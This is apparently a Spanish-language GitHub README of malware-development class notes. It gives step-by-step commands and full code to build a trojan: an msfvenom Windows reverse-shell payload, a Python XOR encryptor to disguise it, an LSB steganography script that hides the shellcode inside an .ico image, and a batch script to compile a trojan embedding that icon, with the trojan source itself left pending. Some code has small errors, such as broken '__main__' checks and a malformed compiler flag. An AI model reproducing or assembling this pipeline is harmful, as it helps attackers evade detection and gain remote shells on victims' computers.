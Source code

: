 ## DESARROLLO DE MALWARE BY @N3XXU5_666

- Dependencias
```bash
apt update && apt upgrade
apt install curl python
python3 -m pip install pillow wave numpy
```
NOTE: en Termux numpy se instala desde APT y python se ejecuta sin el '3'
- Descarga de imagen .ico
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o pornhub.ico
```

- Payload|Shellcode:
```bash
msfvenom -p windows/x86/shell_reverse_tcp LHOST 0.0.0.0 LPORT 0000 -f raw -o shellcode.bin
```

- File xor.py
```python
import sys

def xor(inputData, encKey):

  encKey = str(encKey)
  l = len(encKey)
  outStr = b""

  for i in range(len(inputData)):
    cde = inputData[i]
    ck = encKey[i % len(encKey)]
    outStr += chr(cde ^ ord(ck)).encode('latin-1')

  return outStr

if name == "main":

  ENCRYPT_KEY = "wubbalubbadubdub"
  try:
    plainText = open(sys.argv[1], "rb").read()
    cipherText = xor(plainText, ENCRYPT_KEY)
    open("encrypted.bin", "wb").write(cipherText)
  except:
    print(f"Usage: python3 {sys.argv[0]} <payload file>")
    sys.exit(1)
```

- Encrypt payload :
```bash
python xor.py shellcode.bin #Crea un archivo llamado encrypted.bin
```

- Archivo lsb.py
```python
from PIL import Image
from pydub import AudioSegment
import numpy as np
import wave
import sys

def printHelp():

  print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
      """)

def hideBits(orig, msgFile, dest):

  img = Image.open(orig,'r')
  width, height = img.size
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  message = open(msgFile, "rb")
  message = message.read()
  message += b"$end_of_message$"
  b_message = ''.join([format(i, "08b") for i in message])
  req_pixels = len(b_message)
  if req_pixels > total_pixels:
    print("ERROR: Need larger file size")
  else:
    index = 0
    for p in range(total_pixels):
      for q in range(0,3):
        if index < req_pixels:
          array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
          index += 1
    array = array.reshape(height, width, n)
    enc_img = Image.fromarray(array.astype('uint8'), img.mode)
    enc_img.save(dest)
    print("\nHidden message successfully!\n")

def extract(path):

  img = Image.open(path, 'r')
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  hidden_bits = ""
  for p in range(total_pixels):
    for q in range(0,3):
      hidden_bits += (bin(array[p][q])[2:][-1])
  hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
  message = b""
  for i in range(len(hidden_bits)):
    if message[-16:] == b"$end_of_message$":
      break
    else:
      message += chr(int(hidden_bits[i],2)).encode('latin-1')
  dstFile = open("message.bin", "wb")
  if b"$end_of_message" in message:
    dstFile.write(message[:-16])
    print("\nUnhidden message successfully!\n")
  else:
    print("\nNo Hidden Message Found\n")

if name == "main":

  if len(sys.argv) != 5 and len(sys.argv) != 3:
    printHelp()
    sys.exit(1)
  if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
    printHelp()
    sys.exit(1)
  if sys.argv[1] == "-hide":
    if len(sys.argv) != 5:
      printHelp()
      sys.exit(1)
    hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
  else:
    if len(sys.argv) != 3:
      printHelp()
      sys.exit(1)
    extract(sys.argv[2])
```
- Inyecta el shellcode en la imagen
```bash
python3 -hide pornhub.ico shellcode.bin pornhublsb.ico
```
- Extrae el shellcode de la imagen
```bash
python3 -extract pornhublsb.ico # Crea archivo message.bin
```
#### REFERENCIAS :
| [SHELLCODES](http://shell-storm.org/shellcode/index.html) | Shellcodes pre-creados |
| [DONUT](https://github.com/TheWover/donut) | Convierte codigo cpp compilado a shellcode |

## SCRIPTS EN BATCH PARA COMPILAR TROJANO
Proceso desde SO Windows
- Compilador (VS-code) FILE: compile.bat
```
@ECHO OFF

rc resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /0x /MI /W0 /GS- /DNDBUG /Tp trojan.cpp /Link /OUT:resources.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```
#### REFERENCIAS :
[COMPILER-FLAGS](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options-listed-alphabetically?view=msvc-170) | Banderas de compilacion. Se pueden modificar en base al compilador a usar.

- resources.rc
```
#include "resources.h"

MY_ICON RCDATA pornhublsb.ico
```
- resources.h
```
#define My_ICO 200
```
- trojan1.cpp
```
Pendiente para la siguiente sesion de sabado 10/12/2022
```
- Proceso de compilacion desde el x64 Native Tools Command Prompt for Visual Studio
Los native tools ya vienen instalados al instalar [FLARE-VM](https://github.com/mandiant/flare-vm) | Software de Analisis de malware
```
compile.bat 
```

#### Sigueme en todas las [Redes_Sociales](https://wlo.link/@Ivam3)
#### Sigue a N3XU5 en [Telegram](https://t.me/N3XU5_666). [Canal_CyberneticOps](https://t.me/CyberneticOps), [Canal_CyberOps](https://t.me/CyberOpsChannel), & [YouTube](https://www.youtube.com/@N3XU5_666)
#### ASISTE al proximo [LIVESTREAM](https://t.me/Ivam3byCinderella?livestream)
